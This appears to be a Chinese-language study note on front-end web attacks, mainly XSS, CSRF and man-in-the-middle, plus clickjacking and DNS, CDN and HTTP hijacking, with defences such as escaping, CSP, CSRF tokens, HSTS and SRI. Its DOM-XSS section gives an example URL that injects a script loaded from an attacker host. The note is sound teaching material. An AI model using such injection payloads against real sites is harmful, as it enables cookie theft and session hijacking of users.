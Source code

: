 
## web safe

常见的 web 前端安全攻击方式：
- xss 跨站脚本攻击
- csrf 跨站请求伪造
- MITM 中间人攻击

other:
- SQL 注入
- 点击劫持
- DOS
  - SYN泛洪攻击
- http网络劫持
- CDN 劫持
- SSl剥离

## XSS

跨站脚本攻击: 
在网页中插入恶意的js脚本， 当用户浏览时，就会触发脚本, 造成xss攻击    

### 分类
- 反射型
- 存储型
- DOM型

#### 反射型

用户输入的注入代码 通过浏览器传入到服务器后，又被反射回来，在浏览器中解析执行

demo: 表单输入 `<script src >` 然后回来执行 
电子邮件？ 聊天软件?

#### 存储型
用户输入的注入代码，通过传输，被永久春芳到了目标服务器的数据库或文件中，用户再次访问这个注入代码的页面就出现了

博客论坛留言板

#### DOM型
通过修改页面的dom结构

例子：

攻击者诱导被害者打开链接` hzfe.org?name=<script src="http://a.com/attack.js"/>`。

被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。

被害者在不知情的情况下，执行了攻击者注入的脚本。


### 危害 

1. 劫持用户cookie，通过在网页中写入并执行文件，劫持用户浏览器，将用户当前使用的sessionID信息发送至攻击者控制的网站或服务器
2. 利用 iframe frame XHR Flash等，以用户的身份执行一些动作
3. 利用植入flash 通过crossdomain权限设置进一步获取更改权限，或利用java等得到类似操作
4. 挂马
5. 蠕虫
6. 有局限性的键盘记录

### 防范
1. 对外部的输入进行过滤编码和转译
2. 设置 cookie httpOnly 属性, 禁止js读取cookie
3. 开启CSP content security policy, 内容安全策略 ，规定浏览器只能执行特定来源的代码 



## csrf
跨站请求伪造

攻击者盗用用户身份，以用户身份发送恶意请求 

如：在第三方网站上直接放一个img， 就会盗用这个img链接相关的cookie从而发起请求

### 防范

阻止不明外域的访问
  <!-- 同源检测(referer 部分IE存在问题) -->
  Samesite Cookie
提交时要求附加本域才能获取的信息
  CSRF Token
  双重Cookie验证

1. csrf token
  在用户请求时需要加入token， 进行身份验证
    - 问题，大型网站添加seesion存储会增加服务器压力
2. http header中添加自定义属性并验证
3. 添加白名单，仅允许安全域名请求
4. 增加验证码验证
5. cookie设置 SameSite 属性，



## MITM 

中间人攻击

主要有两个阶段： 拦截和解密

### 拦截

在用户数据未到达目标设备前拦截，分为主动和被动

1. 主动
  - APR欺骗: 
  - DNS: 冒充域名服务器，将IP进行转发
2. 被动:
  免费的wifi热点 


### 解密

- ssl劫持伪造证书
- ssl剥离
- 将https降级为http转给用户使用 


### 防范

- 对开发者:
  - 支持https
  - 开启 hsts 策略，有个缺点是用户首次访问时因还未收到 HSTS 响应头而不受保护
- 对用户
  - 尽可能是用 https  
  - 避免不知名不安全wifi  
  - 不忽略不安全的浏览器通知 
  - 公共网络下不进行涉及敏感信息交互 
  - 用可信的第三方CA厂商
  - 不下载不明来源的证书 

## other

### 点击劫持

*http header*: ```X-Frame-Options```
  - DENY: 始终禁止在 iframe 中显示此页面，即便是同域名下的页面也不允许嵌套。
  - SAMEORIGIN: 只允许与页面同源的iframe中显示页面。
  - ALLOW-FROM url: 允许指定域的iframe中显示页面（已废弃，不推荐使用）

### CDN 劫持

产生:
  - 基于DNS的劫持
  - 互联网路由协议劫持
  - 攻击者可以通过欺骗或篡改CDN节点内容


防范:
- 通过 SRI 解决
  - 通过给 link 标签或者 script 标签增加 integrity 属性即可开启 SRI 功能， 验证子资源完整性
- 全链路https
- 回源操作直接使用ip，避免源路被dns劫持


### DNS 劫持

产生:
  - 本机dns劫持
  - 路由dns劫持
  - 攻击dns服务器

防范:
  - 

### http劫持

- 运营商HTTP劫持

防范：
- https

